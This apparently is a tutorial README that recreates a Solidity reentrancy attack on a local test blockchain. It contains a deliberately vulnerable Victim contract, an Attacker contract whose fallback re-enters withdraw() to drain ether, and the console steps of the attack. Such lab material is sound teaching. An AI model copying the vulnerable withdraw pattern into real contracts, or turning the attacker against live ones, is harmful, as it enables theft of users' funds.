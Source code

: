 # Recreating Reentrancy Attack 
The document below goes through a "reentrancecy attack" scenario using 2 smart contract, a "Victim" and an "Attacker" contracts.

## Instructions

### 1. Prereqs:

[NodeJS](https://nodejs.org/en/)

### Install TestRPC (testing blockchain) and TruffleJS (smart contract deployment tool)

``` 
$ npm i -g ethereumjs-testrpc 
$ npm i -g truffle 
``` 

### 2. Getting Started:

### Setup

```
$ mkdir reentrancy_attack
$ cd reentrancy_attack
$ truffle init
$ rm -rf test/ contracts/ConvertLib.sol contracts/MetaCoin.sol
$ touch contracts/Attacker.sol contracts/Victim.sol
```

#### inside of our `contracts/Victim.sol` file write:

```
pragma solidity ^0.4.8;

contract Victim {

  function withdraw() {
    uint transferAmt = 100000000000000000; 
    if (!msg.sender.call.value(transferAmt)()) throw; 
  }

  function deposit() payable {}
}
```

#### inside of our `contracts/Attacker.sol` file write:

```
pragma solidity ^0.4.8;

import './Victim.sol';

contract Attacker {
  Victim v;
  uint public count;

  event LogFallback(uint c, uint balance);

  function Attacker(address victim) {
    v = Victim(victim);
  }

  function attack() {
    v.withdraw();
  }

  function () payable {
    count++;
    LogFallback(count, this.balance);
    if (count < 10) {
      v.withdraw();
    } 
  }
}
```

#### inside of our `migrations/2_deploy_contracts.js``` file write:

```
const Victim = artifacts.require('./Victim.sol')
const Attacker = artifacts.require('./Attacker.sol')

module.exports = function(deployer) {
  deployer
    .deploy(Victim)
    .then(() =>
      deployer.deploy(Attacker, Victim.address)
    )
}
```

### 3. Compile & Deploy Contract:

The command below creates a `build` folder, in the this 
folder is your contracts in their `binary` and `abi` forms. 

```
$ truffle compile
```

The command below `deploys` the contracts 
(Migration, Victim, Attacker) to our test blockchain (testrpc).

```
$ truffle migrate
```

### 4. Run `TestRPC`

We run `testrpc` with the `-u` and `0` params to unlock the 1st account 
(out of 10 provided by `TestRPC`) so we can make transactions from that account.

```
$ testrpc -u 0
```

### 5. Open up the truffle/node console and deposit eth into our `Victim` contract instance.

So now we run the command below to get inside of the truffle console, 
so we can interact with our deployed contracts (Victim, Attacker), and 
utilize the `web3` object to to run `JSONRPC` commands.

```
$ truffle console
```

We're going to store the account we accounted from before in a `acct1` variable.

```
truffle(development)> acct1 = web3.eth.accounts[0]
```

Then we are going to store our `Victim` contract instances in a `victim` variable
so we can interact with the contract easily. The `.deployed` method gives us that instance.

```
truffle(development)> victim = Victim.deployed()
```

We'll also store our `Victim`'s contract address, so we can interact with it later.

```
truffle(development)> victimAddress  = victim.then(contract  => contract.address)
```

Now lets create a utility function so we can check address balance's and save key strokes.

```
truffle(development)> getBalance = web3.eth.getBalance
```

Now lets check the balance's of the 2 addresses we stored in variables. (acct1, victimAddress).

```
truffle(development)> web3.fromWei(getBalance(acct1).toString())

'99.18' // or somthing close to this 
```

```
truffle(development)> web3.fromWei(getBalance(victimAddress).toString())

'0'
```

Now we are going to send our `Victim` contract some `ether`
from the `acct1` address we unlocked earlier.

```
truffle(development)> victim.then(contract  => contract.deposit.sendTransaction({from: acct1, to: contractAddress, value: web3.toWei(11, 'ether')}))
```

So there's alot going on in this line of code, so lets break it down. Our
`Victim` contract instance has a `deposit` function with a payable modifier, 
that allows us to send ether to that function/contract from our `acct1` address. 
Here's another look at that function.

```
path: ./contracts/Victims.sol

line 10 - function deposit() payable {}
```

Now lets check the balance's of the 2 addresses again, 
which should read or come close to the amounts below.

```
truffle(development)> web3.fromWei(getBalance(acct1).toString())

'88.18' // or somthing close to this 
```

Now our victims contract has 11 ether balance.

```
truffle(development)> web3.fromWei(getBalance(victimAddress).toString())

'11'
```

### 6. Now for the `Attacker`'s side

So now that we have our `Victim`'s contract and we have 
eth in that contract, lets steal some of that. but first lets check 
if we even need any. (check attacker's balance)

```
attacker = Attacker.deployed()
```

```
attackerAddress = attacker.then(contract => contract.address)
```

```
truffle(development)> web3.fromWei(getBalance(attackerAddress).toString())

'0'
```

There shouldn't be any funds unless you've been stealing already!
After we have our scenario (all our variables set up). We can `contract.attack()`.

```
attacker.then(contract => contract.attack())
```

The `.attack()` method above is going to run recursively 10 times, because of the
conditional in our `default payable` function. 

Now if everything is done correctly, we can see the reflection of what happen
by checking the `Victim` and `Attacker`'s balances.

```
truffle(development)> web3.fromWei(getBalance(attackerAddress).toString())

'10'
```

```
truffle(development)> web3.fromWei(getBalance(victimAddress).toString())

'1'
```

So as you can see the `Victim`'s contract is missing an additional `10` eth!!!

7. The Attack!!!

So from our `Attacker` contract instance we are going to call the `.attack()` method
that will then call the `Victim` contract instance's `withdraw()` method.
